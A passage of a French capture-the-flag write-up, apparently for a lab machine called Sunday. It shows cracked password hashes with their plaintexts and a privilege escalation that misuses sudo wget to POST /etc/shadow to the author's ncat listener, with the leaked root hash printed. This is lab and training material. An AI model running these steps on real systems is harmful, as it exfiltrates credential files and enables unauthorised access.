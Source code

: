 ```plain
 This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
 If you want to switch to optimized OpenCL kernels, append -O to your commandline.

 Watchdog: Hardware monitoring interface not found on your system.
 Watchdog: Temperature abort trigger disabled.

 Dictionary cache hit:
 * Filename..: /opt/wordlists/rockyou.txt
 * Passwords.: 14344389
 * Bytes.....: 139921537
 * Keyspace..: 14344389

 $5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:sunday
 $5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!
```

Sunday
------

Une fois connecté avec le compte *sammy* on obtient notre flag (*a3d9498027ca5187ba1793943ee8a598*).  

Et on dispose d'une entrée sudo intéressante :  

```plain
sammy@sunday:~$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
```

La question s'est posée de comment exploiter cette autorisation sans spolier les autres participants et sans modifier de fichiers système (ex: */etc/passwd*) ce qui risquerait là aussi de bloquer les autres participants...  

J'ai cherché du côté du fichier *wgetrc* mais il ne permet pas de faire exécuter des commandes unix :'(  

Finalement l'idée que j'ai retenu est d'utiliser wget pour soumettre en HTTP POST un fichier vers un port qu'on aura auparavant mis en écoute.  

On peut par exemple s'envoyer le fichier shadow ainsi :  

```bash
sudo /usr/bin/wget --post-file /etc/shadow http://10.10.15.90:8080/
```

Et c'est dans la poche :  

```plain
devloop@kali:/tmp$ ncat -l -p 8080 -v
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 10.10.10.76.
Ncat: Connection from 10.10.10.76:61174.
POST / HTTP/1.0
User-Agent: Wget/1.10.2
Accept: */*
Host: 10.10.15.90:8080
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 634

root:$5$WVmHMduo$nI.KTRbAaUv1ZgzaGiHhpA2RNdoo3aMDgPBL25FZcoD:14146::::::
daemon:NP:6445::::::
bin:NP:6445::::::
sys:NP:6445::::::
adm:NP:6445::::::
```